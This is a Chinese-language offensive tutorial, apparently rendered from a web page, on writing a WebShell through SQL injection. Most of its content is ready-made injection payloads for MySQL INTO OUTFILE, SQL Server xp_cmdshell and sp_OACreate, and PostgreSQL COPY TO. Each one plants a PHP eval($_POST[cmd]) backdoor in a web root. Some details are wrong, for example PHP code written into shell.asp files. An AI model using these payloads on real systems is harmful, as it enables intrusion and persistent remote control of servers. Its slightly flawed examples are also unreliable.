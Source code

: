 ### SQL 注入怎么写入 WebShell

这种攻击方式的成功与否，主要取决于以下几个前提条件：

- **数据库账户权限**：当前连接数据库的账户必须具备 `File` 权限，或者说有权限执行 `LOAD_FILE()`、`INTO OUTFILE` 或 `INTO DUMPFILE` 等文件操作函数
- **目标路径可写**：网站服务器上的目标路径必须是可写的，且不能被权限系统限制
- **WAF 或防护软件**：没有强大的 WAF (Web Application Firewall) 或其他安全软件拦截注入语句

**1. MySQL：`INTO OUTFILE`**

这是最常用且最直接的写入 WebShell 的方法。`INTO OUTFILE` 语句能够将查询结果导出到一个指定的文件中

**利用步骤：**

1. **判断权限**：首先，需要判断当前数据库用户是否具有 `File` 权限。可以尝试执行以下语句：

   ```sql
   ?id=1' AND (SELECT count(*) FROM mysql.user)>0--+
   ```

   如果返回正常，则可以初步判断有权限。更直接的方式是尝试利用 `@@basedir` 或 `@@datadir` 查看路径是否可写

2. **获取网站绝对路径**：如果不知道网站的绝对路径，可以尝试利用报错或联合查询来获取

   ```sql
   # 利用报错获取
   ?id=1' AND (SELECT 1 FROM (SELECT count(*), concat(@@basedir,floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)--+
   ```

   或者尝试猜测一些常见的路径，例如 `/var/www/html/`、`C:/inetpub/wwwroot/` 等

3. **构造注入语句**：将包含 WebShell 代码的字符串作为查询结果，然后使用 `INTO OUTFILE` 导出到目标路径

   ```sql
   # 假设我们想写入一个名为 shell.php 的文件
   ?id=1' UNION SELECT 1, '<?php eval($_POST[cmd]);?>' INTO OUTFILE '/var/www/html/shell.php'--+
   ```

   **注意：**

   - `INTO OUTFILE` 导出时会以行的形式输出，每行末尾会有换行符，且不能覆盖已有文件。为了解决这个问题，通常会结合十六进制编码或 `LOAD_FILE()` 来绕过
   - 为了避免转义和换行问题，WebShell 代码通常会用十六进制进行编码

   ```sql
   ?id=1' UNION SELECT 1, 0x3c3f706870206576616c28245f504f53545b636d645d293b3f3e INTO OUTFILE '/var/www/html/shell.php'--+
   ```

**2. SQL Server：`xp_cmdshell`**

`xp_cmdshell` 是 SQL Server 的一个扩展存储过程，它允许在数据库中执行操作系统命令。如果它被启用，攻击者就可以直接执行命令来写入 WebShell

#### **利用步骤：**

1. **判断 `xp_cmdshell` 是否启用**：默认情况下，`xp_cmdshell` 是禁用的

   ```sql
   ;EXEC xp_cmdshell 'dir c:'--
   ```

   如果执行成功，说明已启用。如果没有，则需要尝试启用它

2. **启用 `xp_cmdshell`**：

   ```sql
   ;EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE--
   ```

   **注意：** 启用 `xp_cmdshell` 需要较高的权限（通常是 `sysadmin` 角色）

3. **写入 WebShell**：启用 `xp_cmdshell` 后，可以使用 `echo` 命令将 WebShell 代码写入文件

   ```sql
   ;EXEC xp_cmdshell 'echo ^<^?php eval($_POST[cmd])?^> > C:\inetpub\wwwroot\shell.asp'--
   ```

   `^` 是为了转义特殊字符 `<`、`>` 等

**3. SQL Server：`sp_OACreate`**

如果 `xp_cmdshell` 被禁用，攻击者还可以利用 `sp_OACreate` 等 OLE 自动化存储过程来执行命令

- **利用方式**：利用 `sp_OACreate` 创建一个 `WScript.Shell` 对象，然后通过其 `Run` 方法执行命令

  ```sql
  ;DECLARE @o INT; EXEC sp_OACreate 'WScript.Shell', @o OUT; EXEC sp_OAMethod @o, 'Run', NULL, 'cmd.exe /c echo ^<^?php eval($_POST[cmd])?^> > C:\inetpub\wwwroot\shell.asp'--
  ```

**4. PostgreSQL：`COPY TO`**

PostgreSQL 提供了 `COPY TO` 命令，用于将表数据导出到文件中

- **利用方式**：

  1. 创建一个临时表，并将 WebShell 代码插入其中
  2. 利用 `COPY TO` 命令将数据导出到目标文件

  ```sql
  '; CREATE TABLE shell (cmd text); INSERT INTO shell VALUES ('<?php eval($_POST[cmd]);?>'); COPY shell TO '/var/www/html/shell.php';--
  ```

  **注意：** 执行 `COPY` 命令需要 `superuser` 权限，且目标路径必须是数据库服务器可读写的